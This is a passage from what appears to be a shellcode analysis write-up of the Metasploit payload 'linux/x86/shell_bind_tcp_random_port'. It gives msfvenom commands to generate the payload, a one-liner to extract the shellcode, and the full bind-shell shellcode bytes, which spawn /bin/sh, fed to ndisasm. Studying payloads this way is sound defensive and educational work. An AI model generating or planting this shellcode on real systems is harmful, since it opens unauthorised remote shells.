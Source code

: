There is not any basic option in this case.

For this study we will use the basic command:

```bash
msfvenom -p linux/x86/shell_bind_tcp_random_port --platform=Linux -a x86 -f c
```

### One-liner for getting shellcode 

The fastest way to get the shellcode in my case was using two pipes, one with 'sed' and a second one with 'paste' command:

```bash
msfvenom -p linux/x86/shell_bind_tcp_random_port --platform=Linux -a x86 -f c | grep '"' | sed -e 's/\"//g' | paste -sd "" -
```

Using it, we get the shellcode we will use for the study of the payload:

![Screenshot](images/randbind/3.png)



### Ndisasm

Before studying the syscalls, the .nasm code is extracted using Ndisasm:

```bash
msfvenom -p linux/x86/shell_bind_tcp_random_port --platform=Linux -a x86 -f c | ndisasm -u -
```


Or a little quicker:

```bash
echo -ne "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80" | ndisasm -u -
```
